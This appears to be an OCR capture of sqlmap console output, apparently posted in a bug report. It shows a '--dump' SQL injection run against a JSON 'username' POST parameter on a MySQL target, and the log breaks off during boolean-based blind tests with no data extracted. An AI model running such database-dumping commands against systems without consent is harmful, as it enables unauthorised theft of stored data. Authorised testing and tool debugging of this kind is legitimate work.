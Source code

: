 
Full sqlmap dump output.
```
$ sqlmap -r post.txt -p username --dbms=mysql --dump 
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[(]_____ ___ ___  {1.7.2#stable}                                                                                                                                                                                                   
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                  
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:23:08 /2023-03-20/

[19:23:08] [INFO] parsing HTTP request from 'post.txt'
JSON data found in POST body. Do you want to process it? [Y/n/q] y
[19:23:16] [INFO] testing connection to the target URL
[19:23:16] [WARNING] the web server responded with an HTTP error code (403) which could interfere with the results of the tests
[19:23:16] [INFO] checking if the target is protected by some kind of WAF/IPS
[19:23:16] [INFO] testing if the target URL content is stable
[19:23:16] [INFO] target URL content is stable
[19:23:16] [INFO] heuristic (basic) test shows that (custom) POST parameter 'JSON username' might be injectable (possible DBMS: 'MySQL')
[19:23:17] [INFO] testing for SQL injection on (custom) POST parameter 'JSON username'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[19:23:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:23:22] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:23:22] [INFO] testing 'Generic inline queries'
[19:23:22] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[19:23:25] [WARNING] reflective value(s) found and filtering out
[19:23:28] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[19:23:34] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[19:23:40] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[19:23:51] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[19:24:02] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[19:24:12] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[19:24:23] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[19:24:33] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (bool*int)'
[19:24:52] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (bool*int)'
[19:25:02] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET)'
[19:25:02] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET - original value)'
```